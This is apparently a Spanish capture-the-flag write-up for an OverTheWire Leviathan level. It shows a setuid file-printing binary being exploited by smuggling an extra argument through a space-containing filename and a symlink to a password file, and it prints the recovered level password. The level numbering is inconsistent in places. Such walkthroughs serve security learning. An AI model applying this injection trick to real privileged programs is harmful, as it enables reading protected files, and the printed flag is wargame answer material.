 ## Leviathan Level 3 → Level 4

## Level Goal

There is no information for this level, intentionally.

## Write Up Iker 

Fácil. Tenemos que conectarnos por **SSH** a la dirección **leviathan.labs.overthewire.org** en el puerto **2223** con los siguientes datos:

```bash
  - User: leviathan3
  - Pass: Ahdiemoo1j
```

Escribimos el siguiente comando en la consola:
  
```bash 
$ ssh leviathan3@leviathan.labs.overthewire.org -p 2223
```

Accedemos sin problemas y vemos que hay un fichero llamado **printfile**

```bash
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7506 Jun 15 11:38 printfile
```

Ejecutamos el programa y nos indica que debemos especificarle el nombre de un fichero para imprimirlo.

```bash
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7506 Jun 15 11:38 printfile
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile asdf.txt
You cant have that file...
```

Vamos a probar a ver si nos deja imprimir por la password del directorio que hemos localizado antes.

```bash
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

¡Vaya! Nos nos deja :( . Tendremos que obligarle a que imprima un fichero de verdad.

El mejor lugar para crear un fichero temporal es en la carpeta **tmp** del sistema por lo que vamos a crear uno allí.

```bash
leviathan2@leviathan:~$ mkdir /tmp/iker & touch /tmp/iker/asdf.txt
[1] 318
[1]+  Done                    mkdir /tmp/iker
leviathan2@leviathan:~$ ls -l /tmp/iker/      
total 0
-rw-rw-r-- 1 leviathan2 leviathan2 0 Sep  6 15:24 asdf.txt
```

Ahora que ya hemos creado nuestro fichero vamos a intentar imprimirlo.

```bash
leviathan2@leviathan:~$ ./printfile /tmp/iker/asdf.txt
leviathan2@leviathan:~$ 
```

Lo ejecutamos pero no nos da ningun error. Vamos a volver a ejecutarlo pero esta vez con el comando **ltrace** para ver que es lo que hace.

```bash
leviathan2@leviathan:~$ltrace ./printfile /tmp/iker/asdf.txt
leviathan2@leviathan:~$ 
```

```bash
leviathan2@leviathan:~$ ltrace ./printfile /tmp/iker/asdf.txt
__libc_start_main(0x804852d, 2, 0xffffd7d4, 0x8048600 <unfinished ...>
access("/tmp/iker/asdf.txt", 4)                                                                                               = 0
snprintf("/bin/cat /tmp/iker/asdf.txt", 511, "/bin/cat %s", "/tmp/iker/asdf.txt")                                             = 27
system("/bin/cat /tmp/iker/asdf.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                        = 0
+++ exited (status 0) +++
```

Tal y como pensaba, el programa realiza un **cat** sobre un parámetro que le pasemos desde el fichero **adsf.txt**

Vamos a agregar el directorio que hemos comentado antes **/etc/leviathan_pass/leviathan3** al fichero **asdf.txt** de tal forma que el programa realice la lectura del fichero.

```bash
snprintf("/bin/cat /tmp/iker/asdf.txt", 511, "/bin/cat %s", "/tmp/iker/asdf.txt")   
```
**%s** será el contenido del fichero **/tmp/iker/asdf.txt**  que le pondremos la ruta **/etc/leviathan_pass/leviathan3** .

```bash
leviathan2@leviathan:~$ ./printfile /tmp/iker/asdf.txt
/etc/leviathan_pass/leviathan3
```
Probamos el comando anterior pero solo muestra el contenido del fichero de asdf.txt, es decir, la ruta que hemos agregado manualmente. Algo se nos escapa. 

Vamos a analizar el código de nuevo.

Vemos algo curioso a la hora de listar el directorio donde está el programa.

```bash
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7506 Jun 15 11:38 printfile
```

Observamos que el fichero **printfile** tambien tiene como usuario global a **leviathan3** y usuario real a **leviathan3**.

```html
Con procesos de Linux ejecutandose bajo un "user-ID". Esto les da acceso a todos los recursos (ficheros, etc...) a los que este usuario tendría acceso. Hay dos user-ID's. El user-ID real y el user-ID efectivo. El user-ID efectivo es el que determina el acceso a los ficheros. 
```

Es decir, que **leviathan3** es el **User-ID efectivo**, el que determina el acceso a los ficheros y **leviathan2** es el **User-ID Real**.

Después de investigar un poco el código resultante de **ltrace** e internet, vemos que la llamada **access** se hace con el **User-Id Efectivo** en este caso y que podemos hacer un **bypass** 

Después de pelear con los enlaces symbólicos consigo haver con la pass. 

```bash
leviathan2@leviathan:/tmp/iker$ ls -l
total 4
lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep  6 15:58 asdf -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2 33 Sep  6 15:37 asdf.txt
leviathan2@leviathan:/tmp/iker$ touch asdf\ asdf.txt
leviathan2@leviathan:/tmp/iker$ ls -l
total 4
lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep  6 15:58 asdf -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2  0 Sep  6 16:03 asdf asdf.txt
leviathan2@leviathan:/tmp/iker$ ~/printfile "asdf asdf.txt"
Ahdiemoo1j
```

:v: :sunglasses: :v:

**FLAG** = {Ahdiemoo1j} 
